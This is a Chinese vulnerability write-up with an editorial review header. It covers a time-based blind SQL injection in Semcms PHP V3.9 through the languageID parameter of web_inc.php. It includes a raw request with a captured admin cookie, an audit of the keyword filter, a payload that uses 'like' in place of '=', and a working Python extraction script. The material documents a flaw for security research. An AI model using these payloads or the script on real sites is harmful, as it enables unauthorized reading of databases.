


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：web_inc.php POST languageID可达；DB支持sleep；认证与否需排除示例Cookie

- **凭据与会话边界（1）**：原始请求有管理员Cookie但脚本无Cookie，文章未区分是否需要登录。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **结论使用边界（2）**：数据库脚本只a–y漏z/数字等，user脚本@–Y漏Z/标点，固定长度不能完整提取；5秒阈值无基线。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（3）**：只证user/database而未能绕select读任意表，作者失败边界应保留。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（4）**：图引用3.5资源且尾片污染；无单引号本身非根因，数值未类型验证才关键。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Semcms PHP(多语)版 V3.9 sql注入漏洞

一、漏洞简介
------------

二、漏洞影响
------------

Semcms PHP(多语)版 V3.9

三、复现过程
------------

### 漏洞详情

漏洞文件为Include下的web\_inc.php文件

包

    POST /Include/web_inc.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
    Upgrade-Insecure-Requests: 1
    Content-Length: 64
    Content-Type: application/x-www-form-urlencoded

    languageID=0 or if(substr(database(),1,1) like 0x6D,sleep(5),1);

基于时间的注入

### Code Auditing

查看web\_inc.php的关键代码

    if (isset($_POST["languageID"])){$Language=test_input(verify_str($_POST["languageID"]));}else{$Language=verify_str($Language);}

    if(!empty($Language)){

          //网站SEO设定

          $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
          $row=mysqli_fetch_array($query);
          $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
          $tag_indexkey=datato($row['tag_indexkey']);// 首页关键词
          $tag_indexdes=datato($row['tag_indexdes']);// 首页描述 

    ......

可以看到查询语句没有利用单引号闭合

跟入过滤函数查看

    function test_input($data) { 
          $data = str_replace("%", "percent", $data);
          $data = trim($data);
          $data = stripslashes($data);
          $data = htmlspecialchars($data,ENT_QUOTES);
          return $data;

       }
    function inject_check_sql($sql_str) {

         return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);
    } 

    function verify_str($str) { 

       if(inject_check_sql($str)) {

           exit('Sorry,You do this is wrong! (.-.)');
        } 

        return $str; 
    }

过滤了一些关键字，正常的联合注入是没有办法了，可以时间盲注

利用`if`和`sleep`构造payload，因为`<`,`=`被过滤且存在`htmlspecialchars`函数，利用like代替

    languageID=0 or if(substr(database(),1,1) like 0x6e,sleep(5),1);

附上脚本

    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory

    import requests

    def getDatabase(url):
        s = ''
        r = requests.session()
        head = {'Content-Type':'application/x-www-form-urlencoded'}

        for i in range(1,9):
            for j in range(97,122):
                data = 'languageID=0 or if(substr(database(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

                result = r.post(url, data, headers=head)

                if(result.elapsed.total_seconds() > 5):
                    s = s + chr(j)
                    print(s)
                    break
        print('database=' + s)

    def getUser(url):
        s = ''
        r = requests.session()
        head = {'Content-Type':'application/x-www-form-urlencoded'}

        for i in range(1,21):
            for j in range(64,90):
                data = 'languageID=0 or if(substr(user(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

                result = r.post(url, data, headers=head)

                if(result.elapsed.total_seconds() > 5):
                    s = s + chr(j).lower()
                    print(s)
                    break
        print('user=' + s)

    if __name__ == '__main__':
        url = 'http://127.0.0.1/Include/web_inc.php'

        s = getDatabase(url)
        u = getUser(url)

运行截图

版V3.9sql注入漏洞/media/rId26.png)

版V3.9sql注入漏洞/media/rId27.png)

不过因为过滤了select，暂时不知道怎么注出数据ORZ，比如说注出user表中的密码之类的，如果有师傅愿意不吝赐教，这里万分感谢

参考链接
--------

> <https://xz.aliyun.com/t/7122>
